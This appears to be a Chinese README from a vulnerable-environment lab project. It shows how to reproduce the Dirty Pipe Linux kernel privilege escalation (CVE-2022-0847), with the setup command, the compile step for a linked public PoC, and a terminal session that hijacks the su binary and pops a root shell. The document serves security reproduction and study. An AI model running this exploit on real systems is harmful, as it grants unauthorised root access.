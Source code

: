 # Linux内核漏洞导致权限提升（CVE-2022-0847）

## 场景介绍

请参考[Max Kellermann的文章](https://dirtypipe.cm4all.com)，下文的PoC出自[dirtypipez.c](https://haxx.in/files/dirtypipez.c)。

## 环境搭建

宿主机环境：

- Ubuntu 18。04

首先切换内核，直接通过Metarget安装环境

```
./metarget cnv install cve-2022-0847 --verbose
```

## 漏洞复现

```bash
gcc -o poc poc.c
```

编译好[poc.c](poc.c)，执行即可。例如：

```
ubuntu@test:~$ ls
poc  poc.c
ubuntu@test:~$ ./poc `which su`
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# whoami
root
```